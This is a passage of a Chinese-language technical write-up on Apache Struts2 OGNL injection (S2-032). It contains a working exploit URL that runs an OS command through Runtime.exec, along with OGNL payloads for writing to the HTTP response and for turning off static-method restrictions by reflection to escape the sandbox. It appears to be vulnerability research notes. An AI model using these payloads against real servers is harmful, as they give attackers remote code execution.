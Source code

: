     http://localhost:8080/S2-032/index.action?method:%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%2C%23f%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23parameters.cmd%5B0%5D%29%2C%23f.close&cmd=open%20%2fApplications%2fCalculator.app

这里需要注意的是后端会获取 `name` 值后拼接 `"()"` 形成 `name()` 然后再去执行 OGNL 表达式。

（在测试的时候，对比了前后几个版本的 Payload，发现这里并不用去修改什么安全参数就能够执行命令了，我表示对此有点不解。并且在公开的 PoC 中出现了 `#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS` 这个表达式，如果不附上会因为字符检查而执行失败，这一点是为了绕沙盒，但具体代码细节还是不太清楚）

### 比较关键的 OGNL 表达式

获取当前请求参数值（e.g. `http://www.example.com/index.action?a=222&b=333`）：

    #parameters.a[0]  // a = 222
    
获取当前 Response 对象，用于输出字符串到当前访问页面：

    #response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println("HelloWorld!"),#response.flush(),#response.close()
    
利用 Java 反射机制修改 `#_memberAccess['allowStaticMethodAccess']`：

    #context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)

### 参考

* [http://www.cnblogs.com/LittleHann/p/4606891.html](http://www.cnblogs.com/LittleHann/p/4606891.html)
* [http://www.pwntester.com/blog/2014/01/21/struts-2-devmode-an-ognl-backdoor/](http://www.pwntester.com/blog/2014/01/21/struts-2-devmode-an-ognl-backdoor/)
* [http://drops.wooyun.org/papers/902](http://drops.wooyun.org/papers/902)
* [http://blog.topsec.com.cn/ad_lab/apache-structs2-s2-032技术分析及漏洞检测脚本/](http://blog.topsec.com.cn/ad_lab/apache-structs2-s2-032技术分析及漏洞检测脚本/)
